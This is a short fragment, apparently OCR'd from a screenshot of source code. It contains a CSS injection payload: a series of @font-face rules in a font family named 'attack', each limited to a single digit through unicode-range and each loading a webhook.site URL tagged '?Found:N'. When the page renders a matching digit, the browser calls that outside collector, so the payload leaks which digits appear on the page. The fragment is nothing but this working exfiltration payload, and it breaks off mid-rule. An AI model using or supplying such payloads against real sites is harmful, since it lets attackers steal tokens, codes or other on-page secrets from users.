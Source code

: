 @font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:0');

           unicode-range:U+0030;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:1');

           unicode-range:U+0031;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:2');

           unicode-range:U+0032;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:3');

           unicode-range:U+0033;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:4');

           unicode-range:U+0034;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:5');

           unicode-range:U+0035;
